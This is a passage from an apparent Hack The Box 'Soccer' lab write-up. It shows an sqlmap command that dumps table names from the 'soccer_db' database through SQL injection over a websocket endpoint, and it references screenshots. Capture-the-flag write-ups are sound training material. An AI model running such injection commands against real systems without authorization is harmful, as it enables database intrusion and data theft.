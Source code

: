 ![image.png](/assets/images/Soccer_HTB/image%2018.png)

This helped us to get the required database.

Now lets extract the tables.

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' -D soccer_db --tables --dbms mysql --batch --level 5 --risk 3 --threads 10
```

![image.png](/assets/images/Soccer_HTB/image%2019.png)
